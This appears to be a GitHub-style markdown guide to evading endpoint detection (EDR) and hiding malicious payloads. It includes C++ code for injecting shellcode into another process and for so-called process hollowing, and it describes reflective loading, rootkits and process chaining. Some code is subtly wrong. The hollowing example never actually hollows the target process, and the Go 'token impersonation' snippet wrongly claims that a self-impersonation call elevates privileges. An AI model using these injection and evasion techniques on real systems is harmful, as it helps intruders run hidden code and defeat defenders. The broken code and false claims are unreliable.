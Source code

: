 # Privilege Escalation: Hack the Stack

We’re talking about running under the radar, messing with EDRs (Endpoint Detection and Response systems), and keeping our payloads hidden. Kernel-mode rootkits, especially, are super stealthy and tougher to detect, though they require higher privileges.


### 1. In-Memory Infection
Skip disk writes and inject the payload straight into high-priority memory. This approach avoids leaving files on the hard drive, which makes it less likely for EDRs to catch on.

### 2. Code Injection
Inject code directly into an existing process to avoid creating new ones, which keeps the execution quiet and reduces the chances of being detected.

#### **Example (C++)**

```cpp
// Injects a payload into notepad.exe for eg
#include <Windows.h>
#include <iostream>

int main() {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, <TARGET_PID>);
    LPVOID addr = VirtualAllocEx(hProcess, nullptr, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, addr, shellcode, sizeof(shellcode), nullptr);
    CreateRemoteThread(hProcess, nullptr, 0, (LPTHREAD_START_ROUTINE)addr, nullptr, 0, nullptr);
    CloseHandle(hProcess);
}
```

### 3. Process Hollowing
Create a new process, empty out its memory, and load your payload into it. This allows you to execute without launching a new, suspicious process.

#### **Example (C++)**

```cpp
// Basic process hollowing
#include <Windows.h>
#include <iostream>

int main() {
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;

    if (CreateProcess(L"target.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        LPVOID addr = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(pi.hProcess, addr, shellcode, sizeof(shellcode), NULL);
        ResumeThread(pi.hThread);
        CloseHandle(pi.hThread);
        CloseHandle(pi.hProcess);
    }
    return 0;
}
```

### 4. Token Impersonation
Impersonate a user with elevated privileges by leveraging their token. This lets you execute your payload at higher privilege without launching new processes.

#### **Example (Go)**

```go
// Token impersonation Go snippet (using syscall)
package main

import (
    "fmt"
    "syscall"
)

func main() {
    err := syscall.ImpersonateSelf(syscall.SecurityImpersonation)
    if err == nil {
        fmt.Println("Privileges elevated successfully.")
    }
}
```

### 5. Process Injection
Inject your payload into an already running process to keep things quiet. This allows for seamless execution without creating a new process, which minimizes attention from EDRs.

### 6. Reflective Loading
Load code directly into memory without ever touching the disk. This approach is perfect for hiding DLLs or other resources

### 7. Kernel-Mode and User-Mode Rootkits
Rootkits are powerful tools that help hide your payload from the operating system and EDRs. Kernel mode operates at a low level but requires high privileges, while user-mode is easier to implement but potentially less stealthy.

### 8. Process Chaining
Create a series of processes that execute tasks in sequence. The first process starts, then triggers the next, which triggers the next, creating a chain that EDRs are less likely to trace back.

---
